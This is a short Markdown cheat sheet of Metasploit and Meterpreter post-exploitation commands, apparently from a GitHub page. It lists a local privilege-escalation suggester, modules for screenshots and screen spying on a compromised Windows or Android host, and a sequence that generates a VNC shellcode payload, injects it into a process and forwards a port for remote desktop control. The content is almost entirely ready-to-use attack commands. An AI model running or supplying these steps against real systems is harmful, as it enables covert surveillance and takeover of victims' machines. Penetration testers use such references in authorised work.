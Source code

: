 ## Privesc exploit suggestion
```
multi/recon/local_exploit_suggester
```

---

## Spying
#### screengrab
```
meterpreter> load espia
meterpreter> screengrab
```

#### screenshot
```
meterpreter> screenshot
```

#### screenshare
```
meterpreter> screenshare
```

#### Other modules:
post/windows/gather/screen_spy
post/android/capture/screen

---

## Control desktop

```
post/windows/manage/enable_rdp
run vnc -h

# via shellcode inject
> use payload/windows/x64/vncinject/bind_tcp
> generate -f raw -o vnc.bin
> use post/windows/manage/shellcode_inject
> set SHELLCODE ./vnc.bin
> exploit
> portfwd add -l 5555 -r 127.0.0.1 -p 4444
# you can connect on 127.0.0.1:5555

# other example:
run vnc -V
```